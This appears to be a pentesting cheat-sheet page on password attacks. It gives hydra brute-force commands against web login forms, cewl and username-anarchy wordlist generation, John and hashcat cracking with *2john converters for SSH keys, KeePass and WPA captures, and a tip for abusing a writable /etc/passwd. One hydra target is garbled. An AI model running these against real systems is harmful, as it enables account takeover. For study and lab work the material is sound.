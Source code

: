 # 🔐 Password Attacks

## Username Custom Wordlist

Username list can be made with username-anarchy

{% code overflow="wrap" %}
```
ruby username-anarchy/username-anarchy -i username.txt -f flast,f.last,first.last,last.first
```
{% endcode %}

## Bruteforcing WebApps

When a website needs to be bruteforced with login use cewl to make a wordlist:

```
cewl http://postfish.off/team.html -m 5 -w team.txt 
```

Then use it with hydra

Normal:

{% code overflow="wrap" %}
```
hydra -l user -P /usr/share/wordlists/rockyou.txt <o[> http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```
{% endcode %}

Here `Login failed. Invalid` is the string it greps for to know the login is not successful.&#x20;

`fm_user` is the parameter

Base64:

{% code overflow="wrap" %}
```
hydra -I -f -L custom-wordlist.txt -P custom-wordlist.txt 'http-post-form://192.168.227.61:8081/:username=^USER64^&password=^PASS64^
```
{% endcode %}

## JohnTheRipper

To crack a hash:

{% code title="--wordlist to specify wordlist" %}
```bash
john --format=sha256 hashes_to_crack.txt
```
{% endcode %}



| **Tool**                | **Description**                               |
| ----------------------- | --------------------------------------------- |
| `pdf2john`              | Converts PDF documents for John               |
| `ssh2john`              | Converts SSH private keys for John            |
| `mscash2john`           | Converts MS Cash hashes for John              |
| `keychain2john`         | Converts OS X keychain files for John         |
| `rar2john`              | Converts RAR archives for John                |
| `pfx2john`              | Converts PKCS#12 files for John               |
| `truecrypt_volume2john` | Converts TrueCrypt volumes for John           |
| `keepass2john`          | Converts KeePass databases for John           |
| `vncpcap2john`          | Converts VNC PCAP files for John              |
| `putty2john`            | Converts PuTTY private keys for John          |
| `zip2john`              | Converts ZIP archives for John                |
| `hccap2john`            | Converts WPA/WPA2 handshake captures for John |
| `office2john`           | Converts MS Office documents for John         |
| `wpa2john`              | Converts WPA/WPA2 handshakes for John         |

To mutate the password:

```bash
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```

If /etc/passwd file is editable then delete the "x" in it

**Algorithm Types**

* `$1$` – MD5
* `$2a$` – Blowfish
* `$2y$` – Eksblowfish
* `$5$` – SHA-256
* `$6$` – SHA-512

\

